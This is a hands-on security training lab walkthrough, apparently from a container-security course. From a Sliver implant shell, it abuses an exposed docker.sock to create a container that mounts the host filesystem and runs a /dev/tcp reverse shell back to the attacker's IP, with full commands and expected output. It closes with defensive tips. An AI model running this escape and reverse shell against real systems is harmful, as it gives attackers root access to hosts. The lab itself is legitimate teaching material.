While it's not ideal in Windows to perform "shell" commands typically Linux systems in containers will not have EDR tools that can detect simple shell outputs. We can just use
shellto interact with the system and do this without too much worry. Let's do that and installjq. We can installjqasjenkinsis running asUID 0.Command lines
shellCommand lines
find ./ -name docker.sockCommand lines
apt install jq -yNote
The errors in the ./proc directories will be completely random based on the system that your on. You can safely ignore these.
Expected Results
sliver (PROPOSED_DECREASE) > shell ? This action is bad OPSEC, are you an adult? Yes [*] Wait approximately 10 seconds after exit, and press <enter> to continue [*] Opening shell tunnel (EOF to exit) ... [*] Started remote shell with pid 104 root@0222610d7c9e:/# find ./ -name docker.sock ./run/docker.sock find: ‘./proc/16/task/16/net’: Invalid argument find: ‘./proc/16/net’: Invalid argument find: ‘./proc/102/task/102/net’: Invalid argument find: ‘./proc/102/net’: Invalid argument root@0222610d7c9e:/# apt install jq -y Reading package lists... Done Building dependency tree... Done Reading state information... Done The following additional packages will be installed: libjq1 libonig5 The following NEW packages will be installed: jq libjq1 libonig5 0 upgraded, 3 newly installed, 0 to remove and 0 not upgraded. Need to get 384 kB of archives. After this operation, 1148 kB of additional disk space will be used. Get:1 http://deb.debian.org/debian bullseye/main amd64 libonig5 amd64 6.9.6-1.1 [185 kB] Get:2 http://deb.debian.org/debian bullseye/main amd64 libjq1 amd64 1.6-2.1 [135 kB] Get:3 http://deb.debian.org/debian bullseye/main amd64 jq amd64 1.6-2.1 [64.9 kB] Fetched 384 kB in 0s (835 kB/s) debconf: delaying package configuration, since apt-utils is not installed Selecting previously unselected package libonig5:amd64. (Reading database ... 15729 files and directories currently installed.) Preparing to unpack .../libonig5_6.9.6-1.1_amd64.deb ... Unpacking libonig5:amd64 (6.9.6-1.1) ... Selecting previously unselected package libjq1:amd64. Preparing to unpack .../libjq1_1.6-2.1_amd64.deb ... Unpacking libjq1:amd64 (1.6-2.1) ... Selecting previously unselected package jq. Preparing to unpack .../archives/jq_1.6-2.1_amd64.deb ... Unpacking jq (1.6-2.1) ... Setting up libonig5:amd64 (6.9.6-1.1) ... Setting up libjq1:amd64 (1.6-2.1) ... Setting up jq (1.6-2.1) ... -
how do you interact with a socket file in linux?
cURLprovides the ability to use a socket file. To do this you need to specify the--unix-socketcommand and the URL will behttp://localhost. What we are going to do is list the images that are pulled into the localhost already. We can do this by looking for theRepoTagskey.Command lines
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json | jq '.[] | .RepoTags'Note
There will be other repositories in here that may not perfectly match, this is expected.
Expected Results
root@0222610d7c9e:/# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json | jq '.[] | .RepoTags[]' "workdir-jenkins:latest" "workdir_jenkins:latest" "workdir-vulnapp:latest" "workdir_vulnapp:latest" "workdir-redis:latest" "workdir_redis:latest" "louislam/uptime-kuma:1" "lscr.io/linuxserver/heimdall:latest" "amir20/dozzle:latest" "debian:bookworm-slim" "portainer/portainer-ce:latest" "jc21/nginx-proxy-manager:latest" "bukuserver/bukuserver:latest" "jc21/mariadb-aria:latest" -
Did you notice this list the following Tag:
debian:bookworm-slim
This tag indicates that we have a local Debian 12 image. Let's go ahead and use this to gain full system access.
-
How can we gain full system access back to this host? Well we can do this by leveraging the docker.sock. Let's go ahead and build us a script for this in our attacker shell.
Note
The IP address of the host is needed for this as well
Command lines
export IP=192.168.4.9 -
The command below will create a container with a command line that executes a bash shell back to our host. This shell runs interactive bash. We are also going to run chroot such that the directory we are in will be equivalent to the host.
Command lines
export CMD="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/$IP/9997 0<&1'\\\"\"]"Command lines
export CONTAINER_NAME=hack-containerThe command below directs the Docker API to create a container with all the variables listed. This will not start the container but will create it.
Command lines
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"debian:bookworm-slim\",\"cmd\":$CMD,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=${CONTAINER_NAME}Expected Results
root@0222610d7c9e:/# export IP=192.168.4.9 export CMD="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/$IP/9999 0<&1'\\\"\"]" export CONTAINER_NAME=hack-container root@0222610d7c9e:/# curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"debian:bookworm-slim\",\"cmd\":$CMD,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=${CONTAINER_NAME} {"Id":"9261f2fa60a494bf84635cb01e5ea5db30862a57ae1559e1e0402c85313b7ec1","Warnings":[]}We now have a container that we can start. Let's start that container.
Command lines
curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/start"Expected Results
root@0222610d7c9e:/# curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/start" -
Going back to the terminal you were at you can see the output of the
netcatcontainer.Expected Results
Listening on 0.0.0.0 9999 Connection received on 192.168.4.9 44974 bash: cannot set terminal process group (1): Inappropriate ioctl for device bash: no job control in this shell root@dd7a4708e810:/# -
While the output will not displayed here there are a few commands that you can run to prove full system access. Run the following commands
psls /home/sec588
Technically this container is not running by dropping privileges it is enough to prove the access we have.
-
Now let's go ahead and turn off the Docker Containers that are running in the background.
Command lines
cd /opt/dockerlabs/lab6Command lines
docker compose downExpected Results
sec588@slingshot ~ $ cd /opt/dockerlabs/lab6 sec588@slingshot /opt/dockerlabs/lab6 $ docker compose down [+] Running 11/11 ✔ Container vulnapp Removed 4.4s ✔ Container dozzle Removed 3.6s ✔ Container jenkins Removed 4.3s ✔ Container bukuserver Removed 3.9s ✔ Container redis Removed 3.8s ✔ Container uptime-kuma Removed 4.3s ✔ Container portainer Removed 3.8s ✔ Container heimdall Removed 4.3s ✔ Container db Removed 4.1s ✔ Network npm-networking Removed 0.2sThe containers should now be stopped. This should help reduce system containers.
Please make sure to also run:
Command Lines
sudo systemctl stop sliverFinally make sure to close all your windows as well as we will not need them for the next labs.
Conclusion
For the containers, there are multiple issues. The best way to run containers is through rootless single binary processes. Go makes the best candidate for this, but other languages can make binaries that do not rely on something other than system libraries or even environment shells to make the application work. Cgroups v2 would also make the system much more difficult to exploit as UID 0 in the container would not be UID 0 in the kernel. The final item would be around networking and the ability to firewall away network items. Putting this in a checklist makes sense.
Defensive Tips
The following are tips we explain to individuals
- Running without any binaries, minimal binaries, or even just a single binary
- Running without UID 0
- Do not require privileges
- Firewall or IPTables on the host for each container (Read the Docker Firewalling Documentation)
- Use a docker.sock proxy to limit the number of API calls and the API requirements if you need to expose docker.sock
- Consistently scan for new binaries or execution within the container itself
- Maintain an SBOM
- Use some type of telemetry to see what processes are being executed within each container